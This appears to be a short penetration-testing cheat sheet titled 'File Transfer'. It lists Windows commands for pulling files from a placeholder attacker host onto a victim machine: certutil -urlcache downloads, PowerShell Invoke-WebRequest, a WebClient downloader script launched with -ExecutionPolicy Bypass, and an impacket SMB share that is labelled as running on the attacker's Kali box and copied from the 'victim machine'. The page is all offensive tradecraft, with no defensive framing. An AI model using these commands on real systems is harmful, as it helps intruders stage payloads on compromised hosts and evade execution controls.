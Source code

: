 # File Transfer

## Certutil.exe
```
certutil.exe -urlcache -split -f "http://ip:port/file" <output-file>
```

## Powershell
```
powershell Invoke-WebRequest "http://ip:port/file" -OutFile "<output-file>"
```

## Powershell wget file
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = “http://ip:port/file” >> wget.ps1
echo $file = “<output-file>” >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
## SMB
on attacker machine (kali)
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py <share-name> <share-path>
```
on victim machine
```
net use \\attacker_ip\share_name
copy \\attacker_ip\share_name\file <output-file>

